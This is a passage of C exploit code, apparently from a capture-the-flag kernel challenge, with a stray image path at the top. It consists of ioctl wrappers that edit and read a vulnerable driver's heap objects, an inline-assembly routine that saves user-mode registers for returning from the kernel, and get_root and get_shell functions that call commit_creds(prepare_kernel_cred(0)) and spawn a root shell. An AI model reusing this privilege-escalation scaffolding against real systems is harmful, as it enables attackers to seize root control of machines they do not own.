     void edit(int index, size_t len, size_t offset, char *data)
    {
    	struct Heap heap;
    	heap.index = index;
    	heap.data = data;
    	heap.len = len;
    	heap.offset = offset;
    	ioctl(fd, 0x30002, &heap);
    }
    
    void show(int index, size_t len, size_t offset, char *data)
    {
    	struct Heap heap;
    	heap.index = index;
    	heap.data = data;
    	heap.len = len;
    	heap.offset = offset;
    	ioctl(fd, 0x30003, &heap);
    }
    
    
    void save_status()
    {
    	__asm__(
    	"mov user_cs, cs;"
    	"mov user_ss, ss;"
    	"mov user_sp, rsp;"
    	"pushf;"
    	"pop user_rflags;"
    	);
    	puts("[+] save the state success!");
    }
    
    void get_shell()
    {
    	if (getuid() == 0)
    	{
    		puts("[*] get root");
    		system("/bin/sh");
    	}
    	else
    	{
    		puts("[-] get root error");
    		sleep(3);
    		exit(0);
    	}
    }
    
    void get_root()
    {
    	//commit_creds(prepare_kernel_cred(0))
    	void *(*pkc)(int) = (void *(*)(int))prepare_kernel_cred;
    	void (*cc)(void *) = (void (*)(void *))commit_creds;
    	(*cc)((*pkc)(0));
    }
    